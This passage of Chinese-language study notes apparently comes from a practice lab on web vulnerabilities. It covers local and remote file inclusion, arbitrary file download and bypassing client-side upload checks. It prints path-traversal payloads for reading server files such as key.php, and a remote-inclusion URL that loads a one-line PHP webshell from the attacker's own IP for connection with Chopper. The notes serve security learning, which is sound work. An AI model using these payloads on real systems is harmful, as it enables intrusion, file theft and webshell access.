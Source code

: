 类似，退很多格，也可以把某文件读取出来

或者通过上传漏洞上传一些一句话木马然后通过这种退格方法把木马文件读取出来，再继续。

如果



### 本地文件包含：

`filename=haha.html`

**如果你文件上传到了一个其他位置，你就需要在当前目录下模拟进入该位置**
`fi_local.php?filename=../../../wiki/haha.html`



## 远程文件包含

`xxx.php?file=http://www.baidu.com`

如果尝试可以，那么按道理就是可以替换成，通过包含我们本地的一句话木马来读取

`xxx.php?file=http://自己ip/a.php[包含了自己的一句话木马的php文件]`

然后提交，用菜刀去连接整个地址







# unsafe filedownload任意文件下载

复制链接地址，去查看到后面提交的参数对应了要下载的内容。

那么尝试看看它能否去下载php文件，如果可以，就说明我们也可以尝试去看它数据库里的一些东西。

因为在本地搭建的靶场方便我们自己看目录，可以退一格去提交我们现有的php文件地址：

`?filename=../down_nba.php`

发现是可以下载服务器上的php文件的。

那么就可以去推断服务器所在的数据库的文件地址从而获取东西。

`?filename=../key.php`










# unsafe fileupload任意文件上传

## client check

直接关掉前端js即可上传php文件。

